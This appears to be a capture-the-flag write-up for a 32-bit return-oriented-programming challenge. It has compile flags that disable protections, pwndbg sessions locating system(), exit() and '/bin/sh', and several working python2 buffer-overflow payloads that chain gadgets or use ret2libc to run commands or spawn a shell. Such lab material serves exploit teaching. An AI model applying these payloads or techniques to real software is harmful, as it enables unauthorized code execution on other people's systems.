 ### How to compile binary (disable ASLR):

`gcc roplevel2.c -o roplevel2 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> p exit
$1 = {<text variable, no debug info>} 0x8049060 <exit@plt>
pwndbg> p system
$2 = {<text variable, no debug info>} 0x8049050 <system@plt>
```

```
┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ strings -a -t x /usr/lib/i386-linux-gnu/libc-2.33.so | grep "/bin/sh"                                                                   
 18fb62 /bin/sh

┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ gdb-pwndbg roplevel2
Reading symbols from roplevel2...
(No debugging symbols found in roplevel2)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2 

Breakpoint 1, 0x080491f0 in main ()
...
...
...
pwndbg> info proc mappings
process 5091
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x8049000  0x804a000     0x1000     0x1000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804a000  0x804b000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804b000  0x804c000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	0xf7db9000 0xf7dd6000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7dd6000 0xf7f2e000   0x158000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7f2e000 0xf7fa1000    0x73000   0x175000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa1000 0xf7fa2000     0x1000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa2000 0xf7fa4000     0x2000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa4000 0xf7fa6000     0x2000   0x1ea000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa6000 0xf7fad000     0x7000        0x0 
	0xf7fc3000 0xf7fc5000     0x2000        0x0 
	0xf7fc5000 0xf7fc9000     0x4000        0x0 [vvar]
	0xf7fc9000 0xf7fcb000     0x2000        0x0 [vdso]
	0xf7fcb000 0xf7fcc000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fcc000 0xf7fee000    0x22000     0x1000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fee000 0xf7ffb000     0xd000    0x23000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffb000 0xf7ffd000     0x2000    0x2f000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffd000 0xf7ffe000     0x1000    0x31000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
pwndbg> x/s 0xf7db9000+0x18fb62
0xf7f48b62:	"/bin/sh"
```

```
pwndbg> find &system,+99999999,"/bin/sh"
warning: Unable to access 16007 bytes of target memory at 0x8049050, halting search.
Pattern not found.
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> c
The program is not being run.
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
...
...
...
pwndbg> find &system,+99999999,"/bin/sh"
0xf7f48b62
warning: Unable to access 16000 bytes of target memory at 0xf7faa5ea, halting search.
1 pattern found.
```

### Methodolody:

Find gadgets to return to a System Function

### Answer for original version (I think?):

Analysis things:

```
pwndbg>  x/s 0x804a024
0x804a024:	"# this does nothing..."
pwndbg> print &str1
$10 = (<data variable, no debug info> *) 0x804b3f8 <str1>
pwndbg> print &str2
$11 = (<data variable, no debug info> *) 0x804b404 <str2>
pwndbg> print &str3
$12 = (<data variable, no debug info> *) 0x804b414 <str3>
```

Actual Exploit:

```
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\xf8\xb3\x04\x08')" | ./roplevel2
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\x04\xb4\x04\x08')" | ./roplevel2
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\x14\xb4\x04\x08')" | ./roplevel2
```

- FINAL PADDING = INITIAL PADDING + EBX

- FINAL EXPLOIT = FINAL PADDING (AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7) + GADGET(0x080491da) + EXIT (GGGG) + ARGUMENT (str1[], str2[], str3[])

- Gadget is called first after the 6 * "XXXX" buffer which pushes the current value of `ebx` to the top of the stack. When the gadget completes, it calls that function which is the SYSTEM function call which then looks at the top 2 values on stack for the exit address and the argument.

- 0xf7dfdd00 is the `system()` address

- 0x080491da is the gadget address

### Answer for shell version:

Using pure ret2libc:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\x00\xdd\xdf\xf7\x80\x06\xdf\xf7\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

- 0xf7dfdd00 is the `system()` address

- 0xf7df0680 is the `exit()` address

- 0xf7f48b62 is the `/bin/sh` address

Using gadget() function:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xda\x91\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

- 0x080491da is the gadget address

- 0xf7dfdd00 is the `system()` address

- 0x08049060 is the `exit()` address

- 0xf7f48b62 is the `/bin/sh` address

Using `ROPGadget --binary ./roplevel2-shellversion` (`0x080492c2 : sub al, 0x24 ; ret`):

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xc2\x92\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

- 0x080492c2 is the gadget address

- 0xf7dfdd00 is the `system()` address

- 0x08049060 is the `exit()` address

- 0xf7f48b62 is the `/bin/sh` address

### Notes:

Based on the design of this challenge, the gadget function is not suitable to solve the puzzle as x86 stores parameters to functions on the stack while Mach-O stores parameters to functions in lower registers. I have since edited the challenge to allow it to be exploitable on a Linux OS via the gadget function or finding gadgets within the binary itself as well :). Due to the nature of this exploit, you can even just use a generic ret2libc attack.

You can try to obtain a root shell via a buffer overflow but on analysis of this challenge, it seems that the author wants us to execute the commands stored in str1, str2, str3 via gadget() and the winner() function call. From the author source code, I modified it and created 2 versions of the binary: One that aims to execute the commands store in str1, str2 and str3; and the other aims to obtan a shell.

Over [here](https://icyphox.sh/blog/rop-on-arm/) is a walkthrough of someone attempting the challenge and achieving code execution instead of executing the various commands stored in str1, str2, str3 as the author intended. Still a good read though.

### References:

[PUSH and POP in ARM](https://developer.arm.com/documentation/dui0068/b/Thumb-Instruction-Reference/Thumb-memory-access-instructions/PUSH-and-POP)

[LDR in ARM](https://developer.arm.com/documentation/dui0041/c/Babbfdih#)
